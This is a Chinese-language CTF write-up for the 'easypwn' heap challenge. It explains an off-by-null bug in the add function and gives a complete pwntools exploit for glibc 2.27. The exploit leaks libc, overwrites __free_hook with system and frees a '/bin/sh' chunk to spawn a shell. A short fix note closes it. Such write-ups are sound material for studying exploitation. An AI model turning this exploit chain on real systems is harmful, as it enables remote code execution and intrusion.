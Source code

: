 # easypwn



## 简单描述

只有4个功能, 添加,删除,查看,退出.保护全开,采用new和delete的方式进行内存管理



## 知识点

2.27 off by null 利用



## vul

在add函数中添加了花指令，导致F5伪代码错误。

通过以上发现存在个off by one漏洞，但是需要满足`plist[index][0]` == '\x00'，也就是输入内容第一个字符满足'\x00'，这样才能触发off by null漏洞

那么后面就是glibc 2.27的off by null漏洞利用了。利用思路是修改`__free_hook`为system，执行free的时候传入"/bin/sh"即可拿到shell



## exp


```python
#!/usr/bin/env python2
#-*- coding:utf-8 -*-
from pwn import *
from sys import *
context.terminal = ['tmux', 'splitw', '-h']
#context(arch = 'amd64', os = 'linux', log_level='debug')
exeFile  = "./pwn"
libFile  = "./libc.so.6"
LOCAL = 0
LIBC = 1

if(LOCAL == 0):
    if(len(argv) < 3):
        print('Usage: python2 ./exp.py [host] [port]')
        exit(-1)
    host = argv[1]
    port = int(argv[2])

def add(size, text):
    io.sendlineafter('>>', str(1))
    io.sendlineafter('???', str(size))
    io.sendafter(':>', text)

def delete(idx):
    io.sendlineafter('>>', str(2))
    io.sendlineafter('???', str(idx))

def show(idx):
    io.sendlineafter('>>', str(3))    
    io.sendlineafter('???', str(idx))

def quit():
    io.sendlineafter('>>', str(4))    

#--------------------------Exploit--------------------------
def exploit():
    for i in range(12):
        add(0xf8,  'A\n')

    for i in range(9):
        delete(i)

    for i in range(9):
        add(0xf8,  'AAAAAAA\n')

    show(7)


    leak = u64(io.recvuntil('\x7f')[-6:] + b'\x00\x00')
    libc_base = leak - libc.sym['__malloc_hook'] - 0x10 - 592
    print('leak: ' + hex(leak))
    print('libc_base: ' + hex(libc_base))

    for i in range(8):
        delete(i)

    add(0xf8,  '\n') # idx 0
    delete(9)
    add(0xf8,  '\x00' + 'A' * 0xef + p64(0x100 * 3)) # idx 1 -> old 9 
    delete(8)
    delete(10) # unlink

    add(0x80, '\n') # idx 2
    add(0xe0, 'A' * 0x68 + p64(0x101) + p64(libc_base + libc.sym['__free_hook']) + p64(0) + '\n') # idx 3

    add(0xf0, '/bin/sh\x00' + p64(0) + '\n') # idx 4

    add(0xf0, p64(libc_base + libc.sym['system']) + '\n') # idx 4
    #gdb.attach(io)
    delete(4) # get shell
    sleep(0.1)
    io.sendline('cat flag')

if __name__ == '__main__':
    if LOCAL:
        exe = ELF(exeFile)
        if LIBC:
            libc = ELF(libFile)
            #io = exe.process()
            io = exe.process(env = {"LD_PRELOAD" : libFile})
        else:
            io = exe.process()
    else:
        exe = ELF(exeFile)
        io = remote(host, port)
        if LIBC:
            libc = ELF(libFile)
    
    exploit()
    io.interactive()
```



### 漏洞修复

将off by null赋值指令代码给nop掉就行了。
